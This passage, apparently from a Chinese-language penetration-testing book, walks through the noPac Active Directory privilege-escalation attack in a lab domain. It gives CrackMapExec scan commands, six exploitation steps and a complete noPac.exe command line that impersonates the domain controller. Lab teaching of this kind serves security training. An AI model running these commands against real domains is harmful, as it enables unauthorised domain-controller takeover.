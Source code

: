 借助**CrackMapExec**模块，我们可以查找域中的机器配额并检查域控制器是否存在**noPac**漏洞：

```
crackmapexec ldap 192.168.56.10 -u 'jaime.lannister' -p 'cersei' -d sevenkingdoms.local -M MAQ
crackmapexec smb 192.168.56.10 -u 'jaime.lannister' -p 'cersei' -d sevenkingdoms.local -M nopac
```

执行结果如下所示截图：

![图 6.4 – 使用 CrackMapExec 进行 MAQ 和漏洞检查](img/B18964_06_04.jpg)

图 6.4 – 使用 CrackMapExec 进行 MAQ 和漏洞检查

注意

手动利用步骤已在此实验室演练中详细描述：[`mayfly277.github.io/posts/GOADv2-pwning-part5/#samaccountname-nopac`](https://mayfly277.github.io/posts/GOADv2-pwning-part5/#samaccountname-nopac)。

利用这些漏洞有六个步骤：

1.  使用**addcomputer.py**或**Powermad**创建计算机账户。

1.  使用**Powerview**或**addspn.py**清除创建或控制的机器账户的 SPN 属性。

1.  将创建或控制的机器账户的**sAMAccountName**属性更改为域控制器的名称，但末尾不加**$**符号。

1.  请求该机器账户的 TGT。

1.  将创建或控制的机器账户的**sAMAccountName**属性恢复为原始名称或其他任何值，但不能是域控制器的名称。

1.  通过展示获取的 TGT 请求带有**S4U2self**的 TGS，然后使用它访问域控制器。

我们将使用由*cube0x0*编写的自动化利用工具[7]，该工具包含所有这些步骤：

```
noPac.exe -domain sevenkingdoms.local -user jaime.lannister -pass cersei /dc kingslanding.sevenkingdoms.local /mAccount vinegrep /mPassword vinegrep /service cifs /ptt
```

结果如下所示截图：
